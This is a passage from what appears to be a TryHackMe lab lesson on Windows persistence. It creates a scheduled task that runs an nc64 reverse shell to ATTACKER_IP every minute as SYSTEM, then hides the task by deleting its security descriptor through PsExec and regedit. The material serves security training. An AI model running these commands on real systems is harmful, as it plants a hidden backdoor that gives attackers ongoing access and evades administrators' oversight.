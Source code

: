 ```shell-session
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```

**Note:** Be sure to use `THM-TaskBackdoor` as the name of your task, or you won't get the flag.

The previous command will create a "THM-TaskBackdoor" task and execute an `nc64` reverse shell back to the attacker. The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates that the task will run with SYSTEM privileges.

To check if our task was successfully created, we can use the following command:

```shell-session
C:\> schtasks /query /tn thm-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
thm-taskbackdoor                         5/25/2022 8:08:00 AM   Ready
```

### Making Our Task Invisible

Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable. To further hide our scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor (SD)**. The security descriptor is simply an ACL that states which users have access to the scheduled task. If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.

The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "SD" contains the security descriptor. You can only erase the value if you hold SYSTEM privileges.

To hide our task, let's delete the SD value for the "THM-TaskBackdoor" task we created before. To do so, we will use `psexec` (available in `C:\tools`) to open Regedit with SYSTEM privileges:

```shell-session
C:\> c:\tools\pstools\PsExec64.exe -s -i regedit
```

We will then delete the security descriptor for our task:

![Task Scheduler SD](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9a6dad473b19be313e3069da0a2fc937.png)

If we try to query our service again, the system will tell us there is no such task:

```shell-session
C:\> schtasks /query /tn thm-taskbackdoor ERROR: The system cannot find the file specified.
```

If we start an nc listener in our attacker's machine, we should get a shell back after a minute:

```shell-session
user@AttackBox$ nc -lvp 4449
```
